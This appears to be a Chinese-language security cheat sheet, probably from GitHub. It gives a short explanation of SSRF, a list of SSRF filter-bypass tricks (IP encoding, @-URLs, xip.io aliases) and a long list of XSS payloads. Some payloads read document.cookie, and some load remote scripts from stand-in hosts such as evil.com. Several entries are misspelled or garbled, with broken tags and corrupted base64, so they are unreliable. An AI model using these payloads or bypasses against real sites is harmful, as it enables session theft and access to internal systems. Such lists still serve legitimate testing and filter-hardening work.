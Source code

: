 # SSRF&XSS
SRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

## 常用绕过 payload等

        使用@：http://A.com@10.10.10.10 = 10.10.10.10
        IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
        使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
        端口绕过：ip后面加一个端口
        xip.io：10.0.0.1.xip.io = 10.0.0.1
                www.10.0.0.1.xip.io = 10.0.0.1
                mysite.10.0.0.1.xip.io = 10.0.0.1
                foo.bar.10.0.0.1.xip.io = 10.0.0.1
        通过js跳转

# XSS

## 常见payload

```js
<script>alert(1);</script>
<img src=0 onerror=alert(1)>
"><script src=http://www.xxx.com/1.js></script>"
"></iframe><script>alert(123)></script>
<body onLoad="while(true) alert("XSS"),">
"></tile><script>alert(1111)</script>
</textarea>'"><script>alert(document.cookie)</script>
'""><script language="JavaScript"> alert("X \nS \nS"),</script>
</script></script><<<<script><>>>><<<script>alert(123)</script>
<html><noalert><noscript>(123)</noscript><script>(123)</script>
<INPUTTYPE="IMAGE"SRC="javasctipt:alert("XSS");">
'></select><script>alert(123)</script>
'>'><script src='http://www.evil.com/XSS.js'></script>
}</style><script>a=eval;b=alert;a(b(/XSS/.source));</script>
<SCRIPT>document.write("XSS");</SCRIPT>
a="get";b="URL";c="javascript:";d="alert("XSS");";eval(a+b+c+d);
='><script>alert("XSS")</script>
<sctipt+src=">"+src="http://www.evil.com/XSS.js?68,69"></script>
<body backgroud=jabascript:'"><script>alert(navigator.userAgent)</sctipt>></body>
">XaDoS/><script>alert(document.cookie)</script><script src="http://www.site.com/X
Data:text/html;charset=utf-7;base64.Ij481.3RpdGod[jxzY3JpcHQ+YWxlcnQoMIMzNy
"<marquee><img src=k.png onerror=alert(/XSS/)/>
"<marquee><img src=k onerror=alert(/XSS/)>
'"><marquee><img src=k.png onerror=alert(/XSS/.source)/>
</div><script>alert(123)</script>
"><iframe src="javascript:alert(document.cookie)'><iframe>
<div style="backgroud:url("javascript:alert(I)')">
<img src="java\nascript:alert(\"XSS\")">
>"><img src="javascript:alert("XSS")">
"style="background:url(javascript:alert(/XSS/))"
>"><script>alert(/XSS/)</script>
"></title><script>alert(I)</script>
```
反射XSS:欺骗用户点击，可能会被浏览器过滤

## 其他资料

- https://xianzhi.aliyun.com/forum/topic/83/
- http://kuza55.blogspot.hk/2008/02/csrf-ing-file-upload-fields.html